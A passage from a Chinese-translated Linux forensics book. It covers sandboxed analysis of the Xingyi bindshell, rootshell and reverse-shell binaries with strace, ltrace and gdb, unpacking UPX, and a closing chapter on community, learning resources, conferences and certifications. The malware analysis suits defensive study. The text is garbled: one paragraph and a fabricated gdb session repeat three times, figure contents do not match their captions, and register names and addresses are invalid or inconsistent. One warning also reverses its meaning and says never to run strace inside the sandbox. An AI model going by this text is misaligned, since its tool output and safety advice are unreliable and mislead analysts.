独立机器是最安全的选项。这允许你肆无忌惮地运行程序，因为你知道在完成分析后会对机器进行重装系统。虚拟化显然更方便，但如果你错误配置了虚拟机，会对你的主机产生潜在风险。如果你使用虚拟化，请确保你与虚拟机没有网络连接。此外，请注意，某些智能恶意软件会检测到自己运行在虚拟机内部并拒绝运行，或者更糟糕，尝试利用虚拟化软件的可能漏洞来攻击主机。

如果你需要为虚拟机准备镜像，可以使用重新安装一个你喜欢的 Linux 发行版。如果你认为之后将调查未知二进制文件，可以考虑在安装完所有工具之后、在将任何未知文件传输到虚拟机之前，备份虚拟磁盘文件。记住，大多数虚拟化软件会安装一个连接到互联网的 NAT 网络接口，你应该禁用它！如果你真的想复制目标系统，可以从目标磁盘镜像创建虚拟机。这假设你有足够的磁盘空间、内存等。如果你使用 `VirtualBox`，将原始镜像转换为虚拟硬盘的命令是 `vboxmanage internalcommands convert2hdr srcformat raw -dstformat vhd <raw image> <destination vhd file>`。在虚拟机中（不带网络！）运行的 PAS 目标系统如图 10.18 所示。


图 10.18

将原始镜像转换为 VHD 文件后在虚拟机运行 PAS 目标系统。

### 追踪系统调用

`trace` 工具可以用于跟踪程序发生了哪些系统调用。

该程序的工作原理是运行程序并跟踪（追踪）任何执行的系统调用。千万不要在虚拟机中的沙箱内或上述描述的用于恶意软件调查的专用机器上运行此命令。除了运行此命令时要谨慎外，还有几点需要记住。首先，当你运行程序时，如果需要命令行参数，它可能会失败，或者至少采取不同的执行路径，这可能导致难以看清它在做什么。它可能需要某些在测试环境中未安装的库。如果是这种情况，你应该能看出来，因为你会看到尝试加载库的系统调用。对 `xingi_bindshell` 运行 `strace` 的部分输出如图 10.19 所示。


图 10.19

在沙箱虚拟机中运行 `strace` 对 `xingi_bindshell` 的部分输出。

从图 10.19 我们可以看到 C 库 `(/lib/x86_64-linux-gnu/libc.so.6)` 打开并读取，且该调用返回了文件句柄 3。文件被读取，其部分被映射到内存中，以便可以使用库中的某些函数。所有程序自动存在两个文件句柄 1 和 2，分别对应标准输出 `stdout` 和标准错误 `stderr`。调用 `write(1, "\n", n)` 等于在 C 程序中调用 `printf("\n")`（这正是该文件的内容）。`strace` 的输出还显示使用 `popen` 创建了管道。`Open` 代表管道打开。它用于执行命令并打开一个管道以获取命令的响应。随后的 `read` 命令的几行显示，看起来程序正尝试确定 Python 的版本。

不要认为 `strace` 是帮助你理解程序工作的完美工具。查看程序行为的最佳方法是通过 `gdb` 追踪它。使用 `strace` 是进入 `gdb` 之前的很好的起点。对另一个二进制文件 `xingi_rootshell` 运行 `strace` 的结果如图 10.20 所示。注意程序以“wrong password”消息终止。在静态分析期间带有“password”命令运行 `xingi_rootshell` 导致了图 10.21 所示的结果。


图 10.20

无密码的情况下运行 `strace` 对 `xingi_rootshell`。


图 10.21

对 `xingyi_reverse_shell` 运行 `strace` 生成了错误。如果我们在命令中添加 IP 地址 `127.0.0.1`，它将成功并在端口 `7777` 上创建一个监听的进程，如图 10.22 所示。


图 10.22

对 `xingyi_reverse_shell 127.0.0.1` 运行 `strace`。创建了一个监听端口 `7777` 的进程。

# 追踪库调用

`ltrace` 工具的功能与 `strace` ，只不过用于追踪库调用而不是系统调用。对 `xingyi_bindshell` 运行 `ltrace` 的结果如图 10.23 所示。我们可以看到 C 库被加载，分配了 257 字节内存并填充为零，调用 `popen` 获取版本，返回为 2，`strcmp` 被调用并返回 0，`fork` 用于创建新进程，程序退出。


ptrace(exec, xingyi_bindshell,

- execve("/bin/sh", {"/bin/sh"}, 0x7ffee60d0, 0x00000000)
```

图 10.23 ltrace 对 xingyi_bindshell。

# 图 10.24

在提供正确密码的情况下，对 xingyi_rootshell 运行 ltrace。

对 xingyi_reverse_shell 127.0.0.1 运行 ltrace 的结果如图 10.25 所示。我们可以看到 C 标准库已加载，字符串“127.0.0.1”的长度被反复检查，`fork` 创建了进程 3116，并且在按下 Control-C 键导致程序退出前，打印了两个警告。一个在端口 7777 上监听的新进程已被创建。


# 图 10.25

此时，我们已经获取了足够关于这些二进制文件的信息，可以断定它们是恶意的。我们知道它们是监听套字（sockets）、壳（shells），并且具有其他常见的恶意软件特征。如果我们想学习更多，是时候使用调试器了。

## 使用 GNU 调试器进行逆向工程

GNU 调试器 `gdb` 是 Linux 程序员的标准调试器。它非常强大。遗憾的是，这种强大也伴随着一定的学习曲线。虽然有一些 `gdb` 的图形用户界面（GUI）前端，但该工具本身是基于命令行的。我在书中只会介绍重点内容。对于关于如何充分利用 `gdb` 的完整课程，我推荐 PentesterAcademy.com 上的 GNU 调试器 Megaprinter 课程（http://www.pentesteracademy.com/course?id=4）。

在我们开始之前，我想指出 `gdb` 的设计初衷并不是用于逆向工程。还有其他专门为逆向工程定制的调试器。然而，由于 IDA Pro 的起价超过 1100 美元，它并不适合业余的逆向工程师使用。

要将程序加载到 `gdb` 中，只需输入 `gdb <executable>`。你将会看到一些关于你的文件信息，例如它是否包含调试符号（你检查的大多数文件可能包含额外的调试信息）、一条提示输入“help”获取帮助的语句，然后是一个 `(gdb)` 提示符。输入 `help` 将进入如图 10.26 所示的屏幕。


图 10.26

`gdb` 主帮助界面。
如果你在 `gdb` 中输入 `help info`，你将得到调试器报告的内容长列表。其中一项是函数（functions）。在调试器中加载 xingyi bindshell 的情况下运行 `info functions` 会产生一个长列表，其中部分内容如图 10.27 所示。函数与其地址一起显示。顺便提一下，只要 `gdb` 命令不产生歧义，就可以缩写。输入 `inf fun` 将返回相同的结果。

```
00000000 <00001000>: start main(int)

00000000 <00001000>: push   %rbp

00000005 <00001005>: mov    %rbp,%rsp

00000008 <00001008>: push   %rbx

0000000a <0000100a>: mov    %rbx,%rbp

0000000d <0000100d>: mov    -0x8(%rbp),%rbx

00000010 <00001010>: mov    -0x4(%rbp),%edi

00000013 <00001013>: mov    $0x0,%exx

00000016 <00001016>: call   0x401030 <puts>

0000001b <0000101b>: mov    %eax,%eax

0000001e <0000101e>: leave

pop    %rbp

00000021 <00001021>: mov    %rsp

00000022 <00001022>: ret
```

### 图 10.27

在 `gdb` 中运行 `info functions` 的部分结果。

如前所述，`gdb` 可用于反汇编程序。反汇编函数的命令仅为 `disassemble <function name or address>`，例如 `disassemble main`。该命令可以简化为 `disas`。在运行此命令之前，你可能希望从默认的 AT&T 语法切换到更常见的 Intel 语法。要这样做，请命令 `set disassembly-flavor intel`。反汇编 `main` 的部分结果如图 10.28 所示。注意，与图 10.15 所示的 `objdump` 输出不同，`main` 函数结束于 0x401312。

```
(gdb) file main.c

(gdb) break main

Breakpoint 1 at 0x1149:5 in file main.c.

Remote debugging 1.

(gdb) run

Starting program: /home/sandbox/main 

Breakpoint 0x0000000000401149, main () at main.c:5

5	int x = 0;

(gdb) step

0x0000000000401149, main () at main.c:5

5	int x = 0;

(gdb) print x

$1 = 10
```

### 图 10.28

在 `gdb` 中反汇编 `main` 的部分结果

如前所述，`gdb` 可用于反汇编程序。反汇编函数的命令仅为 `disassemble <function name or address>`，例如 `disassemble main`。该命令可以简化为 `disas`。在运行此命令之前，你可能希望从默认的 AT&T 语法切换到更常见的 Intel 语法。要这样做，请命令 `set disassembly-flavor intel`。反汇编 `main` 的部分结果如图 10.28 所示。注意，与图 10.15 所示的 `objdump` 输出不同，`main` 函数结束于 0x401312。

（注：此处原文原文

在 `gdb` 中反汇编 `main` 的部分结果。

如前所述，`gdb` 可用于反汇编程序。反汇编函数的命令仅为 `disassemble <function name or address>`，例如 `disassemble main`。该命令可以简化为 `disas`。在运行此命令之前，你可能希望从默认的 AT&T 语法切换到更常见的 Intel 语法。要这样做，请命令 `set disassembly-flavor intel`。反汇编 `main` 的部分结果如图 10.28 所示。注意，与图 10.15 所示的 `objdump` 输出不同，`main` 函数结束于 0x401312。

```
(gdb) file main.c

(gdb) break main

Breakpoint 1 at 0x1149:5 in file main.c.

Remote debugging 1.

(gdb) run

Starting program: /home/sandbox/main 

Breakpoint 0x0000000000401149, main () at main.c:5

5	int x = 0;

(gdb) step

0x0000000000401149, main () at main.c:5

5	int x = 0;

(gdb) print x

$1 = 10
```


### 图 10.28

在 `gdb` 中反汇编 `main` 的部分结果

如前所述，`gdb` 可用于反汇编程序。反汇编函数的命令仅为 `disassemble <function name or address>`，例如 `disassemble main`。该命令可以简化为 `disas`。在运行此命令之前，你可能希望从默认的 AT&T 语法切换到更常见的 Intel 语法。要这样做，请命令 `set disassembly-flavor intel`。反汇编 `main` 的部分结果如图 10.28 所示。注意，与图 10.15 所示的 `objdump` 输出不同，`main` 函数结束于 `0x401312`。

```
(gdb) file main.c

(gdb) break main

Breakpoint 1 at 0x1149:5 in file main.c.

Remote debugging 1.

(gdb) run

Starting program: /home/sandbox/main 

Breakpoint 0x0000000000401149, main () at main.c:5

5	int x = 0;

(gdb) step

0x0000000000401149, main () at main.c:5

5	int x = 0;

(gdb) print x

$1 = 10
```


### 图 10.34

如果我们还没有意识到这个嵌入值是一个密码，我们可以使用命令 `x/s *0x6010d0` 来显示这个密码，如图 10.35 所示。注意，这属于额外容易的情况，因为二进制文件没有经过剥离（stripped），并且程序中嵌入了该变量的具有描述性的名称。即使它被剥离了，RIP 引用地址这一事实也表明这是一个嵌入程序二进制文件中的变量。我们看到系统调用的参数是从地址 `0x400B9C` 加载的。如果我们用 `x/s 0x400b9c` 检查它，会看到正在启动一个 bash shell。


### 图 10.35

那么 `xingyi_reverse_shell` 呢？我们可以通过相同的步骤进行快速分析。首先，我们用 `gdb xingyi_reverse_shell` 将其加载。接下来，我们用 `break main` 在 `main` 函数中设置断点。可选地，我们通过 `set disassembly-flavor intel` 将反汇编格式设置为 Intel。我们可以使用带参数 `run 127.0.0.1` 运行程序。在这个阶段，程序应该刚好停在 `main` 函数内部，输入 `disassemble` 将产生如图 10.36 所示的输出。

### 图 10.36

在 gdb 中反汇编 `xingyi_reverse_shell` 中的 `main` 函数。

通过分析图 10.36 中的反汇编代码，我们可以看到这个函数相当简单。栈上分配了 32 (`0x20`) 字节的空间。命令行参数的数量和第一个参数分别存储在 `[RBP - 0x14]` 和 `[RBP-0x20]` 中。如果命令行参数的数量大于 1（回 `print_usage`），第二个命令行参数的地址（位于列表起始位置 + 0x8，以跳过第一个参数的 8 字节指针）会被加载到 RDI 和 `validate_ip4_octet` 中。如果我们事先不知道这个命令行参数应该是一个 IP 地址，这段代码片段将帮助我们发现这一点。再次，如果二进制文件被剥离了，我们就需要多费一番，调查 `0x400AC5` 处的函数以确定它的作用。如果此函数没有返回成功，则执行 `_print_usage`。

一切仍然良好，`daemonize` 函数很清晰。再次，如果二进制文件被剥离了这个描述性名称，我们就必须更努力一点，深入研究 `daemonize` 函数以确定其目的。我们看到 RIP 引用了另一个地址。这里 `write_pid_to_file` 的参数从地址 `0x6020B8` 加载。运行命令 `x/s *0x60200b8` 可以显示该字符串为 `/tmp/xingyi_reverse_pid`。这以及剩余的反汇编代码可能显示在图 10.37 中。


### 图 10.37

`xingyi_reverse_shell` 反汇编的后半部分。

我们可以看到 `fwrite` 被调用了几次，并且调用了 `_log_file`。如果我们检查图 10.37 中引用的值，会发现 `0x620B0` 包含值 `0x51E61` (7777)，`0x620C8` 包含字符串 `"tmp/xingyi_reverse.port"`。确定这三个二进制文件的作用相当容易，因为作者没有尝试混淆代码。文件名、函数名、变量名等让这个过程变得简单。如果恶意软件作者试图让事情难以检测和/或理解呢？

# 混淆 (OBFUSCATION)

恶意软件作者会使用多种方法来混淆程序。其复杂程度差异很大。减慢逆向工程师速度最普通的方法之一是使用加壳（packer）。加壳可以用于压缩磁盘上的二进制文件，并在某些情况下加速加载过程。加壳压缩现有的程序，并插入可执行代码来反转该过程并将程序解压到内存。

可执行文件终极壳 `UPX` 是一种非常流行的跨平台壳器，可以在 `http://upx.sourceforge.net` 获取。如果执行命令 `grep UPX <file>` 生成了任何匹配结果，那么你可能正在处理一个由 UPX 加壳的文件。如果有匹配结果，下载 UPX 包并使用 `-d` 选项解压文件。用 UPX 加壳的文件的前几个字节如图 10.38 所示。

# 图 10.38

用 UPX 加壳的文件的第一部分。

在过去，聪明的作者可能会编写随执行而改变的自修改代码。这在没有任何内存保护的 DOS 系统上很容易实现。在现代世界，即使是 Windows 也会将可执行内存块标记为只读。

# 第十一章

## 前方的路

本章包含信息：

- 下一步骤
- 社区
- 学习更多
- 聚集
- 认证？

# 现在该怎么办？

你已经读完了整本书并完成了示例操作。现在呢？信息安全世界是一个巨大的领域。取证（forensics）子领域也极其广泛。虽然我们已经涵盖了典型的 Linux 响应所需的所有知识，但我们仅仅是触山一角。也许你已经进行过几次真实的调查。一个自然的问题是：“从这里开始我该去哪里？”

## 社区

不要单打斗。成为社区的一部分。如果你想严格地限制在取证领域，这说起来做起来难。拥有活跃本地分会网络的专业取证组织很罕见。我个人并不认为这是一件坏事。我认为接入更广泛的信息安全社区要好得多。想看，拥有一些如攻击性安全（offensive security）等专家的朋友对你的未来有所帮助。你还会在这个社区中发现许多 Linux 领域的专家。

一个很好的起点可能是当地的 DEFCON 小组。小组列表（根据电话区号命名）可以在 `https://www.defcon.org/html/defcon-groups/dc-index.html` 找到。如果你住在大城市，你可能会发现你所在地区有一个 DEFCON 小组。如果你不住在大城市呢？给附近一些小组的联系人发电子邮件，询问他们是否知道你所在地区的任何活动，特别是与取证相关的活动。

本地会议很棒。你可以遇到志同道合的人，而且通常此类会议很有趣。这些会议的问题在于它们往往频率很低。即使是每月一次的会议，与更大社区的互动的。这时在线社区可以产生巨大的益处。当你加入一个在线社区时，你可以接触到世界各地的专家，而不仅仅是居住在附近的人。

一个非常棒的在线社区是加入 [Pentester Academy](http://pentesteracademy.com)。Pentester Academy 提供的不仅仅是几个讨论论坛，还提供了与本书以及其出版分支出版的其他书籍相关的下载内容、作者互动，以及一个不断增长的课程库。Pentester Academy 的另一个优点是，它并不局限于取证这一子领域。

如果你只是寻找一个进行取证讨论的地方，可以考虑尝试 [Computer Forensics World](http://computerforensicsworld.com)。他们提供了多个讨论论坛。在 Reddit 上也有一个计算机取证社区（[http://reddit.com/r/computerforensics）。

## 了解更多

这本书和/或其中的几次 Linux 调查案例是否激发了你学习更多知识的兴趣？学习更多基础知识永远不会错。以下是我认为每个取证专业人员都应该掌握的基础知识列表：

- Linux 如果 如果对象不是运行在 Linux 上，那么这里就是取证的战场。
- Python - 这是信息安全从业人员的事实标准。
- Shell 脚本 - 有时 Python 大材小用，或者开销太大。
- 汇编 - 深入理解汇编有助于你理解一切。

学习 Linux 的最佳方法是什么？使用它。真正地使用它。每天把它作为你的主操作系统运行。不要只是偶尔运行一个 Linux 发行版。在你的笔记本电脑上安装 Linux。你永远无法从运行中的发行版中学学会 Linux 管理。就我个人而言，我会避开专门用于取证的发行版，比如 SIFT。从长远来看，安装标准版本的 Linux 并添加自己的工具会更好。如果你不确定使用什么，Ubuntu 家族的某些成员是你需要支持时可以寻求的大型社区。如果你在运行 Linux 几年后，决定想更深层次地学习 Linux，可以考虑在取证工作站以外的设备上安装 Gent Linux (`http://gentoo.org`)。Gentoo 是一个基于源码的发行版，安装它既是一个教育过程，又极其令人沮丧。

就像 Linux 一样，学习 Python 的最佳方法真的是真正使用它。有很多声称能教你 Python 的书。你应该首先意识到，Python 可以作为脚本语言，也可以作为编程语言。大多数可用书籍将 Python 视为编程语言。我所说的编程语言是指编写大型计算机程序的语言（例如文字处理器或游戏）。在我看来，有其他语言更适合此类任务。

学习 Python 脚本需要一种非常注重实践的方法。这正是你在 Pentester Academy 的 Python 课程（`http://www.pentesteracademy.com/course?id=1`）中会发现的。考虑到这本书是由 Pentester Academy 出版的，有些人可能会对这个建议产生怀疑。在我为 Pentester Academy 制作第一个视频之前，甚至在还没有这本书构想之前，我就一直在推荐这门课程了，其他资源还包括 `http://learnpythonthardway.org`、`http://www.codecademy.com/en/tracks/python`，以及 `http://learnpython.org`。

由于我可能喜欢 Python，但有时编写脚本会更合适。通常情况下，当你想要运行某些程序和/或不想进行大量计算时，脚本是一个很好的选择。用于学习脚本的一些在线资源包括 `http://linuxcommand.org`、`http://linuxconfig.org/bashscript-tutorial`，以及 `http://tdlp.org/HOWTO/Bash-Prog-Intro-HOWTO.html`。我推荐的两本关于 Shell 脚本的书是 Taylor 写的《Wicked Cool Shell Scripts》（第二版计划于 2015 年 9 月出版）以及 Arnold Robins 和 Nelson H.F. Bebe 写的《Classic Shell Scripting》。后者于 2005 年出版，但仍然是该主题最好的书籍之一。

为什么要学习汇编？熟练掌握汇编有助于人们理解计算机在底层是如何工作的。汇编之于科学，就像微积分之于数学和物理。正如学习微积分能让你瞬间理解学校物理课上的所有内容一样，学习汇编能让你对高层编程语言（C、C++ 等）背后的运作一目了然。

Pentester Academy 提供了两门关于汇编和壳编码（shellcoding）的课程。一门针对 32 位系统，32 位和 64 位的课程分别在 `http://www.pentesteracademy.com/course?id=3` 和 `http://www.pentesteracademy.com/course?id=7` 提供。这两门课程都将让你对汇编有一个基础的理解，并且内容远超本书所涵盖范围。

如果你想深入研究汇编并探索上述 Pentester 书籍中未涵盖的主题，你可能会喜欢 Daniel Kusswurm 写的《Modern X86 Assembly Language Programming》。这本书涵盖了许多 Pentester Academy 课程未涵盖的主题（因为这些课程侧重于壳编码和恶意软件逆向）。额外主题包括诸如在新的中使用的浮点寄存器和高级向量扩展 (AVX) 等项目

## 聚会

加入充满活力的本地和在线社区是一件很棒的事情。然而，没有什么比得上一场精彩的会议。我过去所做的许多研究项目都是世界各地会议者的直接结果。会议是建立人脉、与具有互补技能和专业领域知识的人交流的绝佳场所。

取证会议良好的入门列表可以在 `http://forensicswiki.org/wiki/Upcoming_events#Conferences` 找到。《Forensics Magazine》杂志在 `http://www.forensicmag.com/events` 上也列出了一些会议。我还没有找到一个良好的数字取证会议主列表。我希望尝试通过 Google 搜索来定位专门从事取证的会议。

有很多优秀的安全会议可以为对取证感兴趣的人提供价值。我最喜欢的寻找会议列表的地方是 Concise Courses (`http://concise-courses.com`) 和 Security Organizer (`http://secure.info`)。

既然你找到了一些要参加的会议，在现场你应该做什么呢？参与进去！如果有取证竞赛，而且你有时间，请考虑参赛。现在可能赢不了，但你几乎能学到很多。通常会有人为初学者提供一些指导。提问。不要害怕与演讲者交流。除少数例外，大多数人都平易相处并乐于交流。

刻意结识新朋友。即使你和一群人去会议，也要找一个你不认识的人一起吃顿。克服任何天生的内向倾向。我参加过很多会议，从未因为自我介绍和和他人共餐而产生过负面结果。如果会议提供任何聚会或社交活动，尽可能参加。建立一个可以在未来调查中利用的人脉网络并不难。

现在说会议上最困难的事情：许多人因为是信息安全或取证的新手，就假定自己没有什么分享的。每个人在某个领域都是专家。找到你喜欢的领域并成为该领域的专家。与他人分享你的专业知识。你会很快发现向他人解释会丰富自己的理解。

向会议提交演讲可能会令人敬畏。每个人都会被拒绝。关键在于不要将其个人化。演讲被拒绝可能更多是因为与主题或其他演讲不匹配，而不是反映你提交内容的质量。许多会议会提供针对未来提交的反馈。

区域性会议（如 B-sides）可以作为你会议演讲者职业的良好起点。我不是说不要向 DEFCON 这样的大会提交。如果你觉得在第一次会议演讲中面对几千人很自在，尽管去提交吧。如果你发现公开演讲有点可怕，可能想从一个房间少于百人的会议开始。

## 认证

通常情况下，证书可以帮助你找到工作。对于刚开始职业生涯的人来说更是如此。遗憾的是，许多公认的证书需要初学者尚不具备的经验水平。

拥有。在取证领域，情况甚至糟糕，因为某些认证机构要求必须参与政府实体。更让事情复杂化的是，数字取证领域并没有一种公认的认证。

在更广泛的信息安全领域，由国际信息系统安全认证联盟 (ISC)² 提供的注册信息系统安全专业人员 (CISSP) 被认为是包括美国在内的许多国家中所有从业人员都应该持有的标准认证。(ISC)² 还提供注册网络取证专业人员 (CCFP) 认证。与 CISSP 不同，许多机构并不认为 CCFP 是必须的。与 CISSP 类似，如果你想成为 CCFP 但缺乏经验，可以参加考试成为 (ISC)² 的助理员 (Associate)，在你获得所需的经验后，会被授予认证。

许多未与政府就业挂钩的取证认证是由厂商颁发的。鉴于 Linux 的开源特性，目前似乎并不存在针对 Linux 取证的认证。总而言之，除非你确定某特定工作需要这些认证，否则在在取证认证上花钱时应该保持谨慎。

### 总结

在本书中，我们涵盖了大量内容。希望你喜欢这段旅程。我们已经奠定了基础，这应该能帮助你对 Linux 系统进行调查。可能没有立即显现的是，通过学习如何在 Linux 中进行取证，你同时也学习了大量如何在基于 Linux 的取证工作站上调查 Windows 系统。那是另一本书的主题。在此之前，先就到此，祝你的 Linux 取证工作愉快。
